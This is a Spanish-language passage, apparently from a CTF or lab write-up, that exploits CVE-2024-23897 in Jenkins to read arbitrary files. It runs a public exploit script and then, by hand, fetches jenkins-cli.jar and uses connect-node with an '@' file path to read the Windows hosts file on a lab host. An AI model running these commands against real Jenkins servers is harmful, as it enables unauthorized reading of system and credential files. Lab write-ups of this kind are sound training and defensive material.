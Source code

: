 ___
## Explotación
### CVE-2024-23897 | Jenkins (Arbitrary File Read)
#### Automated

En el caso de que queramos explotarlo de manera automatizada nos clonaremos el siguiente repositorio [CVE-2024-23897 - Pinguino de Mario](https://github.com/Maalfer/CVE-2024-23897), y ejecutaremos el script de la siguiente forma.

```python
python3 CVE-2024-23897.py 192.168.200.4 6969 /windows/system32/drivers/etc/hosts
```

Al ejecutar el exploit, veremos como somo capaces de leer archivos locales.

![](<../assets/images/posts/2025-03-17-chimichurri/Pasted image 20250307161908.png>)
#### Manual

Gracias al siguiente foro [HackTheBox - CVE-2024-23897](https://www.hackthebox.com/blog/cve-2024-23897), veremos como explotar esta vulnerabilidad de manera manual.

En primer lugar, debemos descargarnos el `jenkins-cli.jar`. Para ello, usaremos el siguiente comando.

```bash
wget http://192.168.200.4:6969/jnlpJars/jenkins-cli.jar
```

En segundo y último lugar, ejecutaremos el siguiente comando y en el último argumento especificaremos el fichero que queremos leer.

```bash
java -jar jenkins-cli.jar -s http://192.168.200.4:6969/ connect-node "@/windows/system32/drivers/etc/hosts"
```

Observamos como igualmente somos capaces de leer archivos internos del sistema.

![](<../assets/images/posts/2025-03-17-chimichurri/Pasted image 20250307162700.png>)
